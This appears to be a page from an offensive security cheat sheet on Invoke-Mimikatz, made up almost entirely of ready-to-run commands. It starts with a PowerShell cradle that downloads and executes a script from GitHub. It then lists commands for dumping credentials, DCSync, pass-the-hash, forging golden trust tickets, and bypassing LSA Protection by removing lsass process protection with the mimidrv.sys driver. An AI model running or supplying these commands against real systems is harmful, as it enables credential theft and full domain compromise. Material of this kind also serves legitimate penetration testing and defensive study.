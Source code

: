 





**GitHub:** [https://github.com/samratashok/nishang/raw/master/Gather/Invoke-Mimikatz.ps1](https://github.com/samratashok/nishang/raw/master/Gather/Invoke-Mimikatz.ps1)

## Dump Credentials

```bash
# Download and execute in cradle
IEX (New-Object System.Net.Webclient).DownloadString('https://github.com/samratashok/nishang/raw/master/Gather/Invoke-Mimikatz.ps1')
 
 #Dump creds from memory
Invoke-Mimikatz -DumpCreds

# DCSync Attack
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:security.local /user:moe"'

# Dump local passwords
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

# Dump Credential Vault
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'

# Dump credentials on remote systems
Invoke-Mimikatz -DumpCreds -ComputerName @("WS01","WS02")
```

## Dump Domain Credentials

```bash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

## Spawn PowerShell (with Compromised NTLM hash)

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:DomainAdmin /domain:Security.local /ntlm:b38ff50264b7458734d82c69794a4d8 /run:powershell.exe"'
```

## Forge Inter-domain Trust Ticket

```powershell
# Obtain trust key between current domain and external domain
Invoke-Mimikatz -Command '"lsadump::trust /patch"'

# An inter-forest TGT can be forged
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:Security.local /sid:S-1-5-21-1874506000-3219952063-538504511 /rc4:815720462a1b48256f16740b70356b7f /service:krbtgt /target:Vault.local /ticket:C:\AD\trust_forest_tkt.kirbi"'
```

## Over Pass the Hash

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:Security.local /ntlm:<ntlmhash> /run:powershell.exe"'
```

## Protection Bypass

The below image represents an attempt to access the lsass.exe process and extract clear text passwords and run a skeleton key attack. As we can see this has not been successful since applying the registry key change mentioned in the mitigation section for LSA Protection.

![](<../../.gitbook/assets/image (1988).png>)

We can check if the LSA Protection RunAsPPL key exists by querying the registry to confirm the LSA protection is in place.

```bash
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "RunAsPPL"
# Value 0x1 means LSA Protection is enabled
```

This can be bypassed by utilizing the `mimidrv.sys` driver file which is included as a separate file with mimikatz.

{% hint style="info" %}
The mimidrv.sys driver file needs to exists in the same directory as mimikatz.exe.
{% endhint %}

The driver can be loaded by running the command `!+` in `Mimikatz`. After doing so the following command can be execute to protect the `mimikatz.exe` process.

```bash
!processProtect /process:mimikatz.exe
```

The same command with the `/remove` flag can be used to strip the process protection from a process such as `lsass.exe`

```bash
!processprotect /process:lsass.exe /remove
```

From here we should be free to perform actions against LSASS and dump credentials from it.

```bash
mimikatz.exe sekurlsa::logonpasswords
```

